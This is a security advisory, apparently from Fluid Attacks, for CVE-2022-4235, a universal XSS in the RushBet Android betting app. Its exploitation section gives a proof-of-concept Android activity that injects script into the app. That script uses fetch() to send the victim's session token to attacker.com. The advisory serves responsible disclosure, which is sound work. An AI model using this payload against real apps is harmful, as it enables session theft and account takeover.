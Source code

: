 ```yaml
---
slug: advisories/miller/
title: RushBet 2022.23.1-b490616d - Universal XSS
authors: Carlos Bello
writer: cbello
codename: miller
product: RushBet 2022.23.1-b490616d (UXSS)
date: 2023-01-10 12:00 COT
cveid: CVE-2022-4235
severity: 6.0
description: RushBet 2022.23.1-b490616d    -    Universal XSS (UXSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Rushbet, UXSS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | RushBet 2022.23.1-b490616d - UXSS                                  |
| **Code name**         | [Miller](https://en.wikipedia.org/wiki/Mac_Miller)                 |
| **Product**           | RushBet                                                            |
| **Affected versions** | Version 2022.23.1-b490616d                                         |
| **State**             | Public                                                             |
| **Release date**      | 2023-01-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Universal XSS                                                                                                               |
| **Rule**              | [429. Universal XSS (UXSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/429)                                     |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:N                                                                                |
| **CVSSv3 Base Score** | 6.0                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4235](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4235)                                               |

## Description

RushBet version 2022.23.1-b490616d allows a remote attacker to steal
customer accounts via use of a malicious application. This is possible
because the application exposes an activity and does not properly validate
the data it receives.

## Vulnerability

This vulnerability occurs because the application exposes an activity
and does not properly validate the data it receives.

## Exploitation

To exploit this vulnerability, the victim must have a malicious
application installed with activity like the following:

### MainActivity.java

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

Thus, when the victim opens the malicious app, the exploit will
be executed, thus hacking his account.

## Evidence of exploitation

<video width="817" height="590" controls>
    <source src="https://user-images.githubusercontent.com/51862990/
    204822560-80c8fce0-82ec-4a23-bec5-9da689ffea4f.mp4" type="video/mp4">
    <p>POC-Account-Takeover-Rushbet</p>
</video>

![PII-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204819582-d5f0b34a-0ec4-4413-ac40-bc06affd3ed1.png)

## Our security policy

We have reserved the CVE-2022-4235 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: RushBet 2022.23.1-b490616d

* Operating System: GNU/Linux

## Mitigation

An updated version of RushBet is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.rushbet.co>

## Timeline

<time-lapse
  discovered="2022-11-29"
  contacted="2022-11-30"
  replied="2022-12-03"
  confirmed="2022-12-03"
  patched="2022-12-14"
  disclosure="2023-01-10">
</time-lapse>
